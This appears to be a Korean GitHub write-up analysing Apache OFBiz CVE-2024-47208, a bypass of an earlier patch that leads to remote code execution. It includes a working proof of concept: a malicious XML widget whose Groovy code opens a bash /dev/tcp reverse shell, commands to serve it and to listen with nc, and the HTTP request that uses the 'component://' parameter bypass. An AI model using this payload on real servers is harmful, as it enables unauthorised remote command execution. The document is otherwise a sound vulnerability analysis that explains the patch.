









# Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-47208 (7/7)

> 🔖 **Apache OFBiz 1-Day 취약점 살펴보기**
> 1. [Apache OFBiz 1-Day 취약점 살펴보기: 개요 (1/7)](/README.md)
> 2. [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-32113 (2/7)](/02.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-32113/README.md)
> 3. [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-36104 (3/7)](/03.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-36104/README.md)
> 4. [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-38856 (4/7)](/04.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-38856/README.md) 
> 5. [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-45195 (5/7)](/05.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-45195/README.md) 
> 6. [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-45507 (6/7)](/06.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-45507/README.md) 
> 7. [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-47208 (7/7)](/07.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-47208/README.md) 

# Introduction

이번에 분석할 `CVE-2024-47208` 취약점은 이전에 분석한 [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-45507 (6/7)](/06.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-45507/README.md) 취약점의 미흡한 패치로 인해 발생된 취약점입니다. 해당 취약점은 이전 취약점과 동일하게 SSRF(Server-Side Request Forgery), Code Injection 취약점이 존재하며 이로인해 RCE(Remote Code Execution)가 가능한 취약점입니다. 

이번 분석에서는 이전 패치에서 어떤 부분이 미흡했고, 어떻게 우회가 가능한지 살펴보겠습니다.

> 💿 Apache OFBiz 18.12.16 Download Link
>
> [Apache Download Mirrors - v18.12.16 Download Link](https://www.apache.org/dyn/closer.lua/ofbiz/apache-ofbiz-18.12.16.zip)

## Vulnerability Detail

| CVE | CVE-2024-47208 |
| --- | --- |
| Vulnerability | SSRF, Code Injection |
| CVSS(3.x) | `CRITICAL` 9.8 |
| Product | Apache OFBiz |
| Version | <= 18.12.16 |
| Link | [`https://nvd.nist.gov/vuln/detail/CVE-2024-47208`](https://nvd.nist.gov/vuln/detail/CVE-2024-47208) |
| Description | Server-Side Request Forgery (SSRF), Improper Control of Generation of Code ('Code Injection') vulnerability in Apache OFBiz. This issue affects Apache OFBiz: before 18.12.17. Users are recommended to upgrade to version 18.12.17, which fixes the issue. |

# Analysis

먼저, 이전에 발생한 `CVE-2024-45507` 취약점의 패치기록을 살펴보고, 해당 패치를 어떻게 우회할 수 있는지를 살펴보겠습니다.

## 이전 취약점의 패치 분석

이전에 발생한 `CVE-2024-45507` 취약점은 외부에 존재하는 악의적인 XML 파일을 공격자가 전달할 수 있고, 이렇게 전달된 XML 파일이 뷰(View)로 로드되어, 해당 뷰에 정의된 Groovy 스크립트가 실행 됨으로써 RCE 취약점을 일으킬 수 있는 취약점입니다.

이때, 해당 취약점의 패치는 다음과 같습니다.

> [https://github.com/apache/ofbiz-framework/commit/28f5f87ec9](https://github.com/apache/ofbiz-framework/commit/28f5f87ec9)
> 



즉, 사용자로부터 전달된 악의적인 XML 파일 경로(`screenFileUrl.toString()`)를 `UtilValidate` 클래스의 `urlInString` 메서드로 전달하여 허용된 경로만이 로드될 수 있도록 하고 있습니다.

따라서, 아래와 같이 외부 경로의 XML 파일을 요청할 경우 위 코드에 정의되어있는 에러 메시지(’Could not resolve location to URL: …’)가 출력되는 것을 확인할 수 있습니다.



## 이전 취약점의 패치 우회

`UtilValidate` 클래스의 `urlInString` 메소드는 다음과 같이 정의되어 있습니다.

🔍 /framework/base/src/main/java/org/apache/ofbiz/base/util/UtilValidate.java

```java
public static boolean urlInString(String s) {
    if (isEmpty(s) || s.contains("component://")) {
        return false;
    }
    return s.indexOf("://") != -1;
}
```

위 `urlInString` 메소드의 로직을 살펴보면, 전달받은 인자 `s` 에 Apache OFBiz 애플리케이션의 내부 리소스만을 허용하도록 `component://` 가 포함 되는지를 확인하고 있습니다.

이때, 해당 로직에서는 `component://` 문자열이 단순히 포함되는지만을 검사하고 있기 때문에 문제가 발생합니다. 그 이유는 `http://` 로 시작되는 문자열 끝에 URL 파라미터의 값으로 `component://` 를 아래와 같이 전달할 경우 쉽게 우회 되기 때문입니다.

```java
http://attack.com:80/mal.xml?bypass=component://
```

이 내용을 토대로 `CVE-2024-47208` 취약점에 대한 PoC를 수행하여 우회가 되는지를 확인해보겠습니다.

# PoC

우선 이전 `CVE-2024-45507` 취약점과 동일하게 환경을 구성합니다.

## 서버 악성 스크린 위젯 파일(XML) 준비

아래의 악성 스크린 위젯 파일(XML)을 서버에 저장합니다.

참고로, 임의 명령어를 실행할 경우 해당 값을 참조하여 출력하는 구문이 없으므로 다음과 같이 리버스 쉘을 이용합니다. 따라서, 아래 코드에서 `<리버스 쉘 주소>` 를 자신의 리버스 쉘 주소 정보로 변경합니다.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<screens xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xmlns="http://ofbiz.apache.org/Widget-Screen" xsi:schemaLocation="http://ofbiz.apache.org/Widget-Screen http://ofbiz.apache.org/dtds/widget-screen.xsd">
    <screen name="StatsDecorator">
        <section>
            <actions>
                <set field="headerItem" value="${groovy:
                r = Runtime.getRuntime();
                p = r.exec(['/bin/bash','-c','exec 5&lt;&gt;/dev/tcp/<리버스 쉘 주소>/9999;cat &lt;&amp;5 | while read line; do $line 2&gt;&amp;5 &gt;&amp;5; done'] as String[]);
                p.waitFor();
                }"/>
                <entity-one entity-name="FinAccount" value-field="finAccount"/>
            </actions>
        </section>
    </screen>
</screens>
```



이후 해당 파일을 포트 80 으로 요청할 수 있도록 웹 서버를 실행합니다.

```xml
python -m http.server 80
```



## 리버스 쉘 준비

리버스 쉘은 `nc` 명령어를 이용합니다.

```xml
nc -lvp 9999
```



## 패킷 요청

다음의 요청 패킷을 Apache OFBiz 18.12.16 버전에 요청합니다. 이때, Cookie 의 값은 인증된 사용자의 `JSESSIONID` 값이여야 합니다.

또한, `CVE-2024-45507` 취약점의 패치기록에 의하면 `statsDecoratorLocation` 의 값에 `component://` 가 포함되지 않을 경우 에러가 발생하게 됩니다. 이에 URL 파라미터 `bypass` 의 값으로 `component://`를 전달하여 이러한 검증을 우회합니다.

```xml
POST /webtools/control/forgotPassword/StatsSinceStart HTTP/1.1
Host: localhost:8443
Cookie: JSESSIONID=<인증된 사용자의 JSESSIONID 값>;
Content-Type: application/x-www-form-urlencoded
Content-Length: 58

statsDecoratorLocation=http://server.dottak.me:80/test.xml?bypass=component://
```



위 요청이 정상적으로 수행된 경우 다음과 같이 리버스 쉘에서 Apache OFBiz 서버가 연결된 것을 확인할 수 있습니다.

또한, 악성 XML 파일을 가지고 있는 공격자 웹 서버의 로그 기록을 보면 `/test.xml?bypass=component://` 로 출력되는 것을 확인할 수 있습니다.



이후에는 리버스 쉘(아래 탭)에 임의 명령어를 입력할 경우 Apache OFBiz 애플리케이션 서버를 대상으로 입력되는 것을 확인할 수 있습니다.



# Patch

`CVE-2024-47208` 취약점은 이전에 발견된 `CVE-2024-45507` 취약점의 미흡한 패치로 인해 발생되었습니다. 이는 내부 리소스 경로(`component://`)만을 허용되도록 검사하는 `UtilValidate` 클래스의 `urlInString` 함수의 잘못된 로직인 `contains` 함수 사용에 의해 발생되었습니다.

따라서, 해당 로직에서 내부 리소스 경로로 시작되는 경우에만 요청 경로가 허용될 수 있도록 `startsWith` 함수로 변경되었습니다.

> [https://github.com/apache/ofbiz-framework/compare/release18.12.16...release18.12.17](https://github.com/apache/ofbiz-framework/compare/release18.12.16...release18.12.17)
> 



# End

본 분석 대상인 `CVE-2024-47208` 취약점을 분석하기 위해 이전에 발생된 취약점 5개를 함께 분석하였습니다. 이를 통해 미흡한 패치로 인해 발생한 우회 취약점이 어떻게 발생되었는지, 무엇보다 처음 접근한 프레임워크에서의 소스 코드 오디팅, 취약점 분석, 그리고 PoC 등 다양한 과정을 수행했습니다.

그럼 추후 Apache OFBiz 프레임워크에서의 새로운 취약점이 발견될 경우 이어서 작성해보도록 하겠습니다.

> 🔖 **Apache OFBiz 1-Day 취약점 살펴보기**
> 1. [Apache OFBiz 1-Day 취약점 살펴보기: 개요 (1/7)](/README.md)
> 2. [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-32113 (2/7)](/02.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-32113/README.md)
> 3. [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-36104 (3/7)](/03.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-36104/README.md)
> 4. [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-38856 (4/7)](/04.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-38856/README.md) 
> 5. [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-45195 (5/7)](/05.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-45195/README.md) 
> 6. [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-45507 (6/7)](/06.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-45507/README.md) 
> 7. [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-47208 (7/7)](/07.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-47208/README.md) 

---

# References

- https://issues.apache.org/jira/browse/OFBIZ-13158